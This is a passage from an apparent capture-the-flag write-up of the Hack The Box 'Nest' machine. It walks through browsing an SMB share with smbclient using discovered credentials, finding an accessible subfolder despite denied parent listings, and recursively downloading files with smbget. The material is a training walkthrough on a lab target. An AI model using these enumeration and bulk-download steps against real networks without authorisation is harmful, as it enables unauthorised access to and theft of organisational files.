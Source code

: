   
At this stage, it might seem like we haven't found enough information to make a breakthrough. But actually there is a way - let's take another look at the `Secure$` share where `smbmap` couldn't find anything earlier. This time, let's use `smbclient` to have a more hands-on poke-around:
```
kali@kali:~/htb/boxes/nest/smb/demo$ smbclient \\\\nest.htb\\Secure$ -U TempUser%welcome2019
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Aug  7 16:08:12 2019
  ..                                  D        0  Wed Aug  7 16:08:12 2019
  Finance                             D        0  Wed Aug  7 12:40:13 2019
  HR                                  D        0  Wed Aug  7 16:08:11 2019
  IT                                  D        0  Thu Aug  8 03:59:25 2019

                10485247 blocks of size 4096. 6545588 blocks available
smb: \> cd Finance
smb: \Finance\> dir
NT_STATUS_ACCESS_DENIED listing \Finance\*
smb: \Finance\> cd ..
smb: \> cd HR
smb: \HR\> dir
NT_STATUS_ACCESS_DENIED listing \HR\*
smb: \HR\> cd ..
smb: \> cd IT
smb: \IT\> dir
NT_STATUS_ACCESS_DENIED listing \IT\*
```
We see that as `TempUser`, we have no access to read any of the three folders that we see. However, remember that we had found a full path belonging to `Carl` earlier that's located inside the `Secure$` share:
```
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
```
Let's see if we can directly go to `Carl`'s folder in `Secure$\IT`:
```
smb: \> cd IT\Carl
smb: \IT\Carl\> dir
  .                                   D        0  Wed Aug  7 12:42:14 2019
  ..                                  D        0  Wed Aug  7 12:42:14 2019
  Docs                                D        0  Wed Aug  7 12:44:00 2019
  Reports                             D        0  Tue Aug  6 06:45:40 2019
  VB Projects                         D        0  Tue Aug  6 07:41:55 2019

                10485247 blocks of size 4096. 6545588 blocks available
```
Whaddayaknow? We can! It looks like these folders might contain a lot of information, so let's use `smbget` to recursively download documents from here that we can access:
```
kali@kali:~/htb/boxes/nest/smb/demo$ smbget -R smb://nest.htb/Secure$/IT/Carl -U TempUser%welcome2019
Using workgroup WORKGROUP, user TempUser
smb://nest.htb/Secure$/IT/Carl/Docs/ip.txt                                                                                                         
smb://nest.htb/Secure$/IT/Carl/Docs/mmc.txt                                                                                                        
smb://nest.htb/Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner/ConfigFile.vb                                                                          
smb://nest.htb/Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner/Module1.vb                                                                             
smb://nest.htb/Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner/My Project/Application.Designer.vb                                                     
smb://nest.htb/Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner/My Project/Application.myapp                                                           
smb://nest.htb/Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner/My Project/AssemblyInfo.vb                                                             
```